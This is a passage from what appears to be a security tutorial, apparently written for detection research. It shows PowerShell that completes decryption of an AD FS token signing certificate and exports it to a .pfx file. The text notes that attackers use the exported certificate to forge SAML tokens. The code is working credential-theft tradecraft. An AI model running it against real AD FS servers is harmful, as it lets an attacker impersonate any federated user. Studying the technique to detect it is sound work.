$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$pfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```



## Export AD FS Token Signing Certificate
We can now export the token signing certificate cipher text to a .pfx file.

Once again, remember that a threat actor would decrypt and export the token signing certificate and sign SAML tokens in their own environment (outside of the organization).

```PowerShell
$CertificatePath = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$pfx | Set-Content $CertificatePath -Encoding Byte

Get-item $CertificatePath
```



# References
* [Token-Signing Certificates | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/design/token-signing-certificates#:~:text=%20A%20token-signing%20certificate%20must%20meet%20the%20following,in%20the%20personal%20store%20of%20the...%20More%20)
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)
* [Create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15)
